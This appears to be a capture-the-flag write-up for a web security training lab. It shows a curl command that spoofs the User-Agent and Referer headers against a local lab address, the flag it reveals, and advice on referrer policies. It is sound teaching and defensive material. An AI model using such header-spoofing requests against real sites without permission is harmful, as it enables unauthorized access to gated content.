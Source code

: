 # Exploit

If we go to the copyrights page, we can look at the code and notice a very long comment with one useful information:

![](Ressources/images/comment.jpg)

Additionally , we see we would pretend to be a specific kind of browser (through the User-Agent header):

![](Ressources/images/hint_browser.jpg)

In order to change the site from where a request is made, we should change the referer in the request headers.

```
[darkly@darkly] ~ # curl -H "User-Agent: ft_bornToSec" --referer https://www.nsa.gov/  http://192.168.0.160/?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
100 24476    0 24476    0     0  5975k      0 --:--:-- --:--:-- --:--:-- 5975k
```

# Mitigating the risk

The main security concern is leaking information to other sites, such as exposed [here](https://developer.mozilla.org/en-US/docs/Web/Security/Referer_header:_privacy_and_security_concerns).  
This can occur if an element redirects to another website, that could capture information that appears in the URL (sent as referer)

Another possibility is to fake coming from a specific site or page to trigger specific behavior, such as when practicing referer spoofing as discussed [here](https://en.wikipedia.org/wiki/Referer_spoofing) and [here](https://www.brokenbrowser.com/referer-spoofing-defeating-xss-filter/)

All these are explained more fully [here](https://web.dev/referrer-best-practices/).

One should therefore consider the following:

- Setting referrer policies, such as `strict-origin-when-cross-origin`, to prevent sensitive information from being passed on to other websites
- Not disabling the XSS Filter if the request comes from a trusted domain
- Not conditioning disclosure of sensitive information with specific referers, much less any that could be guessed
